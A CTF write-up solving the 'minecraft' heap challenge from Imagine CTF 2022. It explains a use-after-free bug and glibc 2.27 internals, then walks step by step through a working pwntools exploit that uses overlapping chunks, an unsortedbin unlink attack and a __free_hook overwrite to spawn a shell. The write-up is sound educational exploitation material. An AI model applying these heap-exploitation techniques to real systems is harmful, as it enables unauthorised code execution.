


# minecraft - Imagine CTF 2022

This is a classic userspace heap challenge where we are given a binary, libc, a netcat and goal is ofc shell.

### TLDR:

1. Overlap two chuncks with keep function
2. free later chunk
3. unlink attack in unstoredbin
4. put main arena ptr in mem in `.bss`
5. partial overwrite ptr and point to `__free_hook`
6. use replace function to point `__free_hook` to `system`
7. free `/bin/sh\x00` and flag go boom boom!

## Analysis

The binary i pretty small with only a few functionalities.
As seen bellow we can do 4 operations:

```c
puts("(p)lace a block");
puts("(b)reak a block");
puts("(r)eplace a block");
puts("(l)eak the end poem");
__isoc99_scanf("%c%*c", &choice);
```

All of the following C code snippets will be decompilation output snagged right out of ida.

### Place

```c

if ( choice == 'p' ) {
    puts("idx: ");
    __isoc99_scanf("%d%*c", &idx);
    if ( idx < 0 || idx > 0x10 )
        _Exit(0);
    puts("len: ");
    __isoc99_scanf("%ld%*c", &sizes[idx]);
    if ( sizes[idx] <= 0x4FF || sizes[idx] > 0x10000 )
        _Exit(0);
    mem[idx] = malloc(sizes[idx]);
    puts("type of block: ");
    if ( idx < 0 || idx > 0x10 )
        _Exit(0);
    read(0, mem[idx], sizes[idx]);
}
```

In the code snippet above we see that we can malloc a buffer and put into an array of `char *mem[16]`. We are limted to a size between 0x500 and 0x10000. This is to limit of from using the tcache.

### Break
``` c
if ( choice == 'b' ) {
    puts("idx: ");
    __isoc99_scanf("%d%*c", &idx);
    if ( idx < 0 || idx > 0x10 )
        _Exit(0);
    free(mem[idx]);
    puts("keep in inventory? ");
    __isoc99_scanf("%c%*c", &choice);
    if ( choice != 'y' || kept )
    {
        puts("Inventory full!");
        mem[idx] = 0LL; // <------ safe path
    }
    else
    {
        ++kept; //mem[idx] not cleared aka bug
    }
}
```

When breaking a block we can select a index into one of previously allocated buffers and free it. Here we encounter the first bug.
Namely that we can chose wether to keep the block with in the array `mem`. This can lead to two kinds of deadly bugs namely use after free (UAF) and double free. Note that `kept` is a global variable stored in `.bss` and is incremented if we chose to keep. This is to enforce we can only abuse the bug once. 

### Replace

```c
if ( choice == 'r' ) {
      puts("Careful... you can replace a block once.");
      if ( replaced )
        _Exit(0);
      ++replaced;
      puts("idx: ");
      __isoc99_scanf("%d%*c", &idx);
      if ( idx < 0 || idx > 0x10 )
        _Exit(0);
      puts("type of block: ");
      read(0, mem[idx], sizes[idx]);
}
```

Here we are given the choice to replace the content of one of our buffers, with a new read. Again we we can only do this once do to the global `replaced` variable. 

### Leak

``` c
while ( choice != 'l' );
puts("Careful... you can only leak the end poem once.");
puts("idx: ");
__isoc99_scanf("%d%*c", &idx);
if ( idx < 0 || idx > 0x10 )
    _Exit(0);
if ( strchr(mem[idx], 'n') )
    _Exit(0);
if ( strlen(mem[idx]) > 9 )
    _Exit(0);
printf(mem[idx]);
_Exit(0);
```

In the final option leak notice that it will break the loop if `choice != 'l'` and therby follow the exit path in code above.
Here we are given a second bug. A format string vulnerability as we control content of `mem[idx]` and thereby argument passed to printf.
We will not focus on this bug as it will not be part of the final exploit, we can do just fine with UAF/double free.

### BUG

We can create to vulnerabilities use after free and double free but not both as we are limited by the `kept` and `replace` unless we double free and edit the same buffer, but that's a wired edge case.

1. UAF: Allocate a buffer, free it and then replace it's content.
2. double free: Allocate a buffer, free it and free same index again at late point.

### Security Measures

The first we will have a look at is checksec:


We see that the binary is not PIE meaning that the binary will always be loaded at the samme address in the virtual memory space at adress `0x3ff000`.
And we see that it is full relro, meaning that the global offset table is loaded in a read only page meaning we cannot change any of it's values. 
Also it has no stack canary and it's NX protected, theres are of less intrest to us as we expect any modern binary to be NX and stack canary is mostly only relevant for stack exploitation and this is clearly a heap challenge.

We are also given the libc (`libc-2.27.so`) and from the version we can determine a lot of information regarding internal heap protections inside libc.
This libc has basically zero security measures compared to some of the more mordern versions:

1. It has tcache (2.26 and above) although we probably wont use it do to size limitation in the allocation path
3. No pointer protection (2.32 and below) of tcache (again not super relvant)
2. Few check doing malloc and free: [How2Heap list of strategies](https://github.com/shellphish/how2heap)
4. Few protections doing unlink (2.31 and below)
5. `__malloc_hook` and `__free_hook` is still a thing. (2.33 and below)

So this is as close as it gets to perfect when it comes to heap exploitation execpt that we are not given a function to print content, meaning that leak is gonna be hard. (except the obscure and restricted printf)

## Tour around my setup

So before diving straight into exploitation I wanna share my setup that I use every time i encounter a heap challenge.

### libc stuff

First lets make sure we can run the binary with the same libc to mimic the sever exactly.
No I don't use [pwninit](https://github.com/io12/pwninit) (i'm in the process of writing my own) if use find :D.
I just seaarch my local CTF folder and for sure i will find a `ld.so` matching the libc. 
The ld can be obtained in many ways search ubuntu archive spawn a docker with that ubuntu version you name it. 
In this case we can leave libc as is because it already contains debug info (this is needed for pwntools heap stuff to work).
Otherview look at the command [`eu-unstrip`](https://helpmanual.io/help/eu-unstrip/) it can put debug symbols back into striped binarys. Debug symbols for: [ubuntu](https://packages.ubuntu.com/bionic-updates/libc6-dbg).
Next we copy and patch the binary with another interpeter. 
`cp vuln chall && patchelf --set-interpreter ld-2.27.so chall`

This will make our binary search for that ld in current directory and we can now run `LD_PRELOAD="./libc-2.27.so" ./chall` to run the binary with a forced matching libc.

from pwntools:

``` python
#!/usr/bin/python
from __future__ import annotations
from heapq import heapify, heapreplace
from typing import List, Tuple, Dict
from pwn import *
import struct
from pwnlib.tubes.remote import remote
from pwnlib.tubes.process import process
from pwnlib.util.packing import u8, u16, u32, u64, p8, p16, p32, p64

elfPath = "./chall"
libcPath = "./libc-2.27.so"

elf = ELF(elfPath)
libc = ELF(libcPath)

terminalSetting = ["tmux", "new-window"]
context.clear(terminal=terminalSetting, binary=elf)

gdbscript = """
set substitute-path /build/glibc-uzu3ws/glibc-2.27/ glibc-2.27/
set follow-fork-mode child
define mem
    set $mem = (uint64_t [0x10])mem
    p/a $mem
end
b system
b malloc_printerr
continue
"""

env = {"LD_PRELOAD": libcPath}

if args["REMOTE"]:
    io: remote = remote("minecraft.chal.imaginaryctf.org", 1337)
else:
    if not args["GDB"]:
        io: process = process(elfPath, env=env, stdout=PIPE, stdin=PIPE, stderr=PIPE)
        # PIPE makes binaries without setvbuf behave in pwntools.
    if args["ATTACH"]:
        pwnlib.gdb.attach(io, exe=elfPath, gdbscript=gdbscript)
    if args["GDB"]:
        io: process = pwnlib.gdb.debug(elfPath, exe=elfPath, env=env, gdbscript=gdbscript, stdout=PIPE, stdin=PIPE, stderr=PIPE)
        
io.interactive()
io.close()
```

### Libc Source Files

Now lets make the debug experience as nice as possible by adding the libc source code to our project. 

Here we can find the exact libc [source code](https://packages.ubuntu.com/bionic-updates/glibc-source) used for this ubutnu, download and extract it into a folder called `glibc-2.27`. Now we use `objdump -g libc-2.27.so | less` and search for malloc:


Now as seen on the picture we will get the original build path used to compile this libc.
This can be used in combination with gdb's `set substitute-path` to remap the original path to our downloaded source.
Here is a great [guide](https://alex.dzyoba.com/blog/gdb-source-path/) on substitute-path and debug symbols in general.

Running `set substitute-path /build/glibc-uzu3ws/glibc-2.27/ glibc-2.27/` in gdb will give you libc source listings.
This can be done from pwntools as well look at python above.

Now i just sprinkled some [splitmind](https://github.com/jerdna-regeiz/splitmind) over my [pwngdb](https://github.com/pwndbg/pwndbg) and booom it look's like this:


Best of it we can break as we like in libc!! fx: from gdb `b malloc.c:3788` with all the symbols and debug symbols from libc debugging heap bugs becomes much easier. For refrence my `.gdbinit` looks like this:

``` bash
# source /home/zander/.gdbinit-gef.py
# gef config context.layout "legend regs code args source memory extra"

source /home/zander/Projects/pwndbg/gdbinit.py
source /home/zander/Projects/splitmind/setupSplit.py
# set show-compact-regs on

# source /home/zander/.gdbinitdash

# source /home/zander/Projects/gdb-pt-dump/pt.py

# set exception-verbose on
# set exception-debugger on
# set confirm off
# set verbose off
# set pagination off

set auto-load safe-path /

set context-stack-lines 10
set context-sections 'regs disasm code ghidra stack expressions'
```
`/home/zander/Projects/splitmind/setupSplit.py`:

``` python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from __future__ import print_function
from __future__ import unicode_literals

import sys
from os import path

directory, file = path.split(__file__)
directory       = path.expanduser(directory)
directory       = path.abspath(directory)

sys.path.append(directory)

import splitmind # isort:skip
(splitmind.Mind()
  .right(of="main", display="regs", size="64")
  .below(of="regs", display="stack", size="19")
  # .below(of="stack", display="backtrace", size="8")
).build()
```

Only down side of this is that now one have to run `python exploit.py` inside a tmux shell every time but you get used to it.
I have made some changes to pwndbg fixing some syntax issues i have experinced with kernel exploit stuff and also makes you have a easier time debugging binaries with multiple heap arenas (using pthread):

``` diff
diff --git a/pwndbg/color/syntax_highlight.py b/pwndbg/color/syntax_highlight.py
index 6f0aa0a..47e504c 100644
--- a/pwndbg/color/syntax_highlight.py
+++ b/pwndbg/color/syntax_highlight.py
@@ -16,6 +16,7 @@ try:
     from pwndbg.color.lexer import PwntoolsLexer
 except ImportError:
     pygments = None
+import pkg_resources

 pwndbg.config.Parameter('syntax-highlight', True, 'Source code / assembly syntax highlight')
 style = theme.Parameter('syntax-highlight-style', 'monokai', 'Source code / assembly syntax highlight stylename of pygments module')
@@ -62,7 +63,7 @@ def syntax_highlight(code, filename='.asm'):
     if not lexer:
         try:
             lexer = pygments.lexers.guess_lexer_for_filename(filename, code, stripnl=False)
-        except pygments.util.ClassNotFound:
+        except (pygments.util.ClassNotFound, pkg_resources.DistributionNotFound):
             # no lexer for this file or invalid style
             pass

diff --git a/pwndbg/heap/ptmalloc.py b/pwndbg/heap/ptmalloc.py
index 53ce1dd..793bf2d 100644
--- a/pwndbg/heap/ptmalloc.py
+++ b/pwndbg/heap/ptmalloc.py
@@ -139,7 +139,11 @@ class Heap(pwndbg.heap.heap.BaseHeap):
         if self.has_tcache():
             tcache = self.mp['sbrk_base'] + 0x10
             if self.multithreaded:
-                tcache_addr = pwndbg.memory.pvoid(pwndbg.symbol.address('tcache'))
+                tcache_sym = pwndbg.symbol.address('tcache')
+                if tcache_sym:
+                    tcache_addr = pwndbg.memory.pvoid(pwndbg.symbol.address('tcache'))
+                else:
+                    tcache_addr = 0
                 if tcache_addr != 0:
                     tcache = tcache_addr

@@ -319,7 +323,11 @@ class Heap(pwndbg.heap.heap.BaseHeap):
         """
         if arena_addr is None:
             if self.multithreaded:
-                arena_addr = pwndbg.memory.u(pwndbg.symbol.address('thread_arena'))
+                arena_sym = pwndbg.symbol.address('thread_arena')
+                if arena_sym:
+                    arena_addr = pwndbg.memory.u(arena_sym)
+                else:
+                    arena_addr = 0
                 if arena_addr != 0:
                     return pwndbg.memory.poi(self.malloc_state, arena_addr)
```

## Glibc Internals

I will not cover all of glibc internal here as it's quite a lot to cover. I will though go briefly over the relevant parts.
I highly recommend having good knowledge about glibc internals before continuing into the exploitation part. 
Here are some relevant resources: 

1. [glibc Internals for a quick overview of struct's](https://sourceware.org/glibc/wiki/MallocInternals)
2. [azeria-labs part 1 deep understanding](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)
3. [azeria-labs part 2 deep understanding](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)

If one reads (and understands) these 3 front to back you prety much in my oppinion have alle the knowledge to get started in glibc heap exploitation, altough some parts has changed since. Unfortunately I am not aware of any source execpt [glibc source](https://github.com/bminor/glibc/) that is 100p uptodate.

The heap can be seen as a collection of doubly and singly linked lists (oversimplified). 
We have 5 kinds of linked list:

1. tache: **single** linked lists
2. fastbins: **single** linked lists
3. unsortedbin: **double** linked list
4. smallbins: **double** linked list
5. largebins: **double** linked list with and extra double linked list storing chucks sorted by size

These bins all have diffrent purposes and allows for speed optimization where seams fit. We prefer to consolidate two consecutive chunks of memory into one upon free'ing when the chunk is big and not when the chunk is small. A small waste of space by not consolidating small chunks is accepted to gain speed up. A rule of thumb is that if the list supports consolidation it's **doubly** linked allowing for quick removal in the middle of the list. **Singly** linked when consolidation will never happen because of the small size of chunks. Here tcache is the exception. I am positive this is described in the links above. 

|  |
|:--:|
| <b>ptype of victim with breakpoint on line 3788 in malloc.c</b>|

Above is the structure of a glibc chunk printed from a gdb breakpoint inside malloc.c:

1. `prev_size`: the size of the previous chunk in memory **not in the linked list**
2. `size`: size of the chunk. The last 3 bit's are flags (bit 0 is_previous_chunk_in_use important to us)
3. `fd`: forward pointer in a linked list
4. `bk`: backward pointer in a linked list

The rest is only relevant for large chunks and i won't go into details, also tcache has a kinda diffrent structure but very similar.

An important note here is that (with some exception's) `prev_size`and `size` is stored outside of the memory returned to the user while `fd` and `bk` is stored instead of user data. This is okay as `fd` and `bk` is only relvant when the buffer is already in a freed state . This also means that malloc will infact allocate 0x10 bytes more than the requested size to have space enough for `prev_size` and `size`. 

In this challenge the only relevant part is actually the unsorted bin (potentilay largebins). As we are limited to do allocations of at least `0x500` meaning we are above both tchace, fast bin and small bin ranges. So this means that every time we free the chunk will end in the unsortedbin and like wise we will only be allocate from this bin as well.

When we free a chunk it is put first in unsortebin after consolidation. 
consolidation (merged together into one chunk) happens if two chunks are consecutive in memory upon free.
This also happens with the special chunk called the top chunk defining the end of currently in use heap area.
When allocating we will scan the unsortedbin for an exact size match every chunk not fitting will be sorted into it apropiate bin in this binary it will always be largebins. Doing exploitation we will not encounter this. If no chunk is matched we will go over a number of steps trying to reallocate from the bins big enough for requested size and at last if everything else fails take from the top chunk. 

## Exploitation

Goal: get shell using `__free_hook` to makes free call system with `/bin/sh\x00` in a buffer.

Okay now let's exploit this shit, but where to start with a milion exploit strats on [How2Heap](https://github.com/shellphish/how2heap) and some of them even having wrong version annotation (ofc one can do overlapping chunks in libc above 2.29 it's just harder).
Actually I recommend just learning glibc internal a few strat's along with some Heap feng shui and just yolo from there.

After fucking around with the leak/printf for some hours I decided to do leak less heap exploitation, now were are not completely in the blind here as there is no PIE. So we know some addresses this made me quite certain that a special kinda unlink attack would work as I have done this many times before on binaries both with and especially without PIE. 

The `replace block` we can only do once and is therefore a super valuable resource to us so we will keep this available as long as we can right until the end where we override the `__free_hook`. First what we wanna do is to get full control of the usortedbin we will do this by setting up the heap in a way where we can free a chunk we control all aspects of. 

Let's first define some interaction functions:

``` python
def create(idx: int, size: int, data: bytes) -> None:
    io.sendlineafter(b"poem", b"p")
    io.sendlineafter(b":", f"{idx}".encode())
    io.sendlineafter(b":", f"{size}".encode())
    io.send(data)

def edit(idx: int, data: bytes) -> None:
    io.sendlineafter(b"poem", b"r")
    io.sendlineafter(b":", f"{idx}".encode())
    io.send(data)

def delete(idx: int, keep: bool = False) -> None:
    io.sendlineafter(b"poem", b"b")
    io.sendlineafter(b":", f"{idx}".encode())
    io.sendlineafter(b"?", b"y" if keep else b"n")
```

### Setup Overlapping Chunks

To execute a unlink attack we first wanna have full control of first chunk within the unsortedbin. To accomplish this we will first create overlapping chunks and later freeing a overlapped chunk.

|  |
|:--:|
| <b>0x511 because we allocate 0x10 more and the previous in use bit is set</b>|

We wanna setup our heap in such a way that we can free a fake chunk creating overlapping chunks. As we will se later this will allow us to control first and only free chunk in the unsortedbin. With the python script bellow we will setup chunks as seen in the picture above.

``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, b"C"*0x80)
create(15, 0x511, b"D"*0x80)
```

Now we delete the red chunks and keep anything else as it is, this will first put `A` into unsortedbin and when freeing `B` consolidate `A` and `B` into one chunk and change nothing in unsortedbin.

``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, b"C"*0x80)
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)
```
Here we use the `kept` option to keep a refrence to chunk at `mem[1]`.

Let have a look in gdb. As we see in the picture below we have a single chunk in the unsortedbin `0x405250` and it clearly overlaps the pointer stored in `mem[1]`.

|  |
|:--:|
| <b>I put `set $mem = (uint64_t [0x10])mem` in my python gdbscript for easy inspection</b>|

We can now allocate a bigger chunk back and free `mem[1]` as follows:

``` python
create(0, 0xa10, flat({
    0x508: p64(0x601)
}))
delete(1)
```
We also change the chunk size to 0x600 so this chunk will now overlap the following chunk `C`. Lets have a look:


Whoops we happend to react `malloc_printerr` due to the `prev_inuse` check not passing. This is because that we now have expanded the chunk size and doing the consolidation phase checks the previous in use bit for the chunk we are trying to free. By inspecting +0x600 further we indeed see only zero's. luckily this es part of `mem[2]` memory so we can fix this.

``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, flat({
    0xe8: p64(0x21),
    0xe8+0x20: p64(0x21)
}, filler=b"C"))
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)

create(0, 0xa10, flat({
    0x508: p64(0x601)
}))
delete(1)
```

By doing the above we in `create(2, ...)` we say that at offset 0xe8 into the buffer place a p64(0x21), meaning we place a small chunk of size 0x20 and set `previous_inuse`. This tells libc that the 0x600 is in fact in use and are allowed to be freed. Another problem will accrue as well. Namely that it will now check the next `previous_inuse` bit of the small 0x20 chunk checking if it can consolidate the thow chunks to one 0x621 chunk, but again finds zero's. So we repeart by putting another fake chunk with `previous_inuse` bit set telling the smaller chunk is also in use. This is done with the: `0xe8+0x20: p64(0x21)`. So to refere to our drawing from erlier we now have expanded size of `B` and created two fake chunks within the `green` chunk. Now `B` overlaps into `C` and we are acutally able to free both of them. Here is our diagram so far altough realy hard to draw overlapping chunks.


|  |
|:--:|
| <b>Arrows point to the beginning of each chunk but the overlap so hard to read 🤨</b>|

The blue chunks reprecent chunks allocate and avaliable in `mem` and `red` is freed chunks.

we can now even free chunk at `mem[2]` and this is how our `exploit.py` looks so far:

``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, flat({
    0xe8: p64(0x21),
    0xe8+0x20: p64(0x21)
}, filler=b"C"))
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)

create(0, 0xa10, flat({
    0x508: p64(0x601)
}))
delete(1)
delete(2)
```

lets have a look in gdb. We can see that we successfully freed both chunk `B = 0x405760` and `C = 0x405c70` and that `B` is now 0x600 big overlapping into `C`. 


Side note it doesn't matter if `prev_size` is kinda fucked as the previous chunk is marked as `inuse` by the 0x601. Meaning the `prev_size` will never be put to use.

let's once again draw a diagram:

|  |
|:--:|
| <b>`mem[0]` still points to a chunk `A` but is omited as it is not use full to us any more</b> </br> <b>Here is only forward pointers drawn.</b>|

This drawing should some what reprecent what is going on in our exploit so fare. What we see is that we now have two chunks in unsortedbin. and we can allocate back both of them by alocating their exact size-0x10. Now that means if we allocate 0x5f0 we will get back chunk `B` which overlaps chunk `C`. Chunk `C` will still be first in unsorted list.
Well the observant read might have noticed that in my explanation of glibc mentionend that we will sort the unsortedbins into other bins doing this phase. So shouldent we move chunk `C` to largebins when search for `B` as we would first iterate over `B`?
Well actually no, lets look at the malloc implementation to se why malloc.c:3739:

``` c
  for (;; )
    {
      int iters = 0;
      while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
        {
          bck = victim->bk;
          if (__builtin_expect (chunksize_nomask (victim) <= 2 * SIZE_SZ, 0)
              || __builtin_expect (chunksize_nomask (victim)
				   > av->system_mem, 0))
            malloc_printerr ("malloc(): memory corruption");
          size = chunksize (victim);
```

This is where we search the unsortedbins for a exact match in chunk size, and sort all other traversed chunks. `victim` is the chunk we will be checking and sorting and we can see that `victim` is taken from the back pointer `bk` and not the front, remember we have a doubly linked list. So we are actually traversing the linked list on the diagram in reversed order and 0x601 will be the first chunk visited.

Here is a the code unlinking chunk and return `victim` back to our binary:

``` c
          /* remove from unsorted list */
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);

          /* Take now instead of binning if exact fit */

          if (size == nb)
            {
              set_inuse_bit_at_offset (victim, size);
              if (av != &main_arena)
                  set_non_main_arena (victim);
#if USE_TCACHE
	      /* Fill cache first, return to user only if cache fills.
		 We may return one of these chunks later.  */
	      if (tcache_nb
		  && tcache->counts[tc_idx] < mp_.tcache_count)
		{
		  tcache_put (victim, tc_idx);
		  return_cached = 1;
		  continue;
		}
	      else
		{
#endif
              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
#if USE_TCACHE
		}
#endif
            }
```
Yes it looks messy and it is. But we see that no furter sorting will be done as we return `p` on line 3814 in malloc.c.

This means that we now completed the first goal we can allocate back 0x601 and get full control of the first and only chunk in the unsrotedbins which is prefect for doing unlink attack in unsortedbin:



Code that created this allocation:

``` python
mem = elf.symbols['mem']
create(1, 0x5f0, flat({
    0x0: b"/bin/sh\x00",
    0x500: p64(0x0),
    0x508: p64(0x511),
    0x510: p64(mem-0x18),
    0x518: p64(mem-0x10),
}))
```


### Unlink Attack 

Now we will finaly go over the unlink attack and the mysterious `create(15, ...)`. The "original" [unlink attack](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit) actually used the unlink path doing consolidation. We will be using the unlink preformed from malloc to pop the backward pointer `bk` from the main arena. I often find this path easier and as we will see more power full (in this situation).

Lets draw what the diagram once more to get an overview of what is going on:


now what we see here is that the `bk` pointer actually points to a some what valid chunk but inside our binary. As offset 0x8 is a size of 0x510 with the size 0x500. And as described erlier doing allocation from unsorted is drawn from the backward pointer.

let's have a look at this pointer in memory:


We can indeed se that the `mchunkptr` points to a chunk with a valid size and `prev_inuse` bit set, and it is inside the virtual address space of out binary.

But something even more magic is going to happen when we pop this chunk from the unsorted bin let's try, `exploit.py` with pop:

``` python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, flat({
    0xe8: p64(0x21),
    0xe8+0x20: p64(0x21)
}, filler=b"C"))
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)

create(0, 0xa10, flat({
    0x508: p64(0x601)
}))
delete(1)
delete(2)

create(1, 0x5f0, flat({
    0x0: b"/bin/sh\x00",
    0x500: p64(0x0),
    0x508: p64(0x511),
    0x510: p64(mem-0x18),
    0x518: p64(mem-0x10),
}))

create(2, 0x500, b"D"*0x80)
```

lets have a look at gdb at this point in time, breaking just after the unlink has happend inside libc at malloc.c:3710.
**Yes we end up with a libc pointer in `mem[0]` pointing into the `main arena`.** It actualy points right back at the unsortedbin.


The unsortedbin is actually a noded it self in this doubly linked list. When we unlink the first element in the list we have to enure that the new first element in the list hash a `fd` pointing to the unsortedbins compeling the loop of nodes in the linked list.

The code for unlinking can be found in `malloc.c:3788` and also shown in a snippet above. `unsorted_chunks (av)->bk = bck;` and `bck->fd = unsorted_chunks (av);`.

Now lets single step it. In the picture below we see the change inside the `main arena`. We see that the `bk` changes to a pointer inside our binary. Which we have discussed before is a valid chunk we can allocate later. This gives us control of the entire `mem` array:


Now lets try and single step the next line. Now what we see is it will make the forward pointer of our next inline chunk on the unsortedbin point back in to libc's unsortedbin in an attempt to complete the loop. This is super advantages for us as we now have a libc pointer stored in our `mem[0]`.


Now again for a more visual overview let's draw a diagram showing this malloc transition:

|  |
|:--:|
| <b>The heap chunk doesn't realy mater any more</b>|

As we take from the backward pointer in unsortedbins we can now allocate the `mem` array. Now what we wanna do is allocate it and only overwrite 2 bytes. That will result in overwriting two least significant bytes of `mem[0]` and now we can redirect it to somewhere else in libc.

``` python
free_hook = libc.symbols['__free_hook'] & 0xffff
create(3, 0x500, p16(free_hook))
```

Remember ALSR do not affect the 3 last nibbles of an address so for any libc address `p` it will hold that `p & 0xfff` will always stay the same. But we are overwriting two bytes so there is only a 1/16 chance this will work. But fuck it we will run the exploit a couple times.

yet another drawing:

|  |
|:--:|
| <b>They are marked blue as we actually control the content, so they can be considered in use but not important to us. </b>|

So as we also can confirm by gdb we now have `__free_hook` at our disposal in the `mem[0]`. And if you recale we can replace one block and have not used that function yet.


Now from here it a easy win we just replace the content of the `__free_hook` with `system`. You might ask who who where do we get system from?? 
This is the top of the decompilation:

``` c
canary = __readfsqword(0x28u);
system("clear");
setvbuf(stdout, 0LL, 2, 0LL);
setvbuf(stdin, 0LL, 2, 0LL);
puts("It's Minecraft time! Your speedrun starts... now!");
```

So system is in our plt and we and again with no PIE whe can just point `__free_hook` at that one. Here is the final exploit code:

```python
create(0, 0x500, b"A"*0x80)
create(1, 0x500, b"B"*0x80)
create(2, 0x500, flat({
    0xe8: p64(0x21),
    0xe8+0x20: p64(0x21)
}, filler=b"C"))
create(15, 0x511, b"D"*0x80)

delete(0)
delete(1, True)

create(0, 0xa10, flat({
    0x508: p64(0x601)
}))
delete(1)
delete(2)

create(1, 0x5f0, flat({
    0x0: b"/bin/sh\x00",
    0x500: p64(0x0),
    0x508: p64(0x511),
    0x510: p64(mem-0x18),
    0x518: p64(mem-0x10),
}))

create(2, 0x500, b"D"*0x80)

create(3, 0x500, p16(free_hook)) #partial overwrite of libc pointer

pause()
edit(0, p64(0x00401110)) #inserting plt of system into free hook

io.sendlineafter(b"poem", b"b")
io.sendlineafter(b":", f"{0x1}".encode()) #freeing /bin/sh\x00

io.sendline(b"ls") #sanity cmd

io.interactive()
io.close()
```

## Discussion

But first (I promise last gdb screenshot!) lets them system call:


So first feel free to use github issues as a way of communication or directly DM me in discord (zanderdk#1701). This challenge had some func ascpects and the minecraft made me feel that it not another note challenge and overall a good heap chall. Hope that my write-up was clear, i have put a lot of time in it. The exploit here is works 1/16 of the time, so we just run it a couple times and shell pop's at some point. I will be releasing a part 2 where we will make the exploit 100p stable and stil restricting us from using the printf as well as the system plt. But these write-up's stakes time do to so please be patient. I will ofc post link here as well as in the discord.

